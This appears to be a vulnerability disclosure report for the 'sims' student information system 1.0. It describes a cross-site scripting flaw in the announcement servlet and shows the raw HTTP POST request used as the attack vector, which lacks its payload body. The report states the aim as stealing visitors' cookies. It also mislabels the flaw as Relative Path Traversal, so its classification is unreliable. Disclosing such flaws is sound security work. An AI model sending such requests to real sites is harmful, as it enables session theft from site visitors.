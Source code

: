 #### **[Suggested description]**

This open source system is a student information management system. There was an insecurity vulnerability in the announcement. Attackers can use this vulnerability to implement cross-site scripting attacks on website visitors, such as "cookie theft" and "browser escape".
POST: http://localhost:8081/sims/addNotifyServlet

#### [Vulnerability Type]

Relative Path Traversal

#### **[Vendor of Product]**

https://github.com/rawchen/sims

#### **[Affected Product Code Base]**

1.0

#### **[Affected Component]**

Sims 1.0

OS: Windows/Linux/macOS

Browser: Chrome、Firefox、Safari

#### **[Attack vector]**

```
POST /sims/addNotifyServlet HTTP/1.1

Host: localhost:8081

Content-Length: 61

Cache-Control: max-age=0

sec-ch-ua: "-Not.A/Brand";v="8", "Chromium";v="102"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Windows"

Upgrade-Insecure-Requests: 1

Origin: http://localhost:8081

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://localhost:8081/sims/notifyServlet

Accept-Encoding: gzip, deflate
```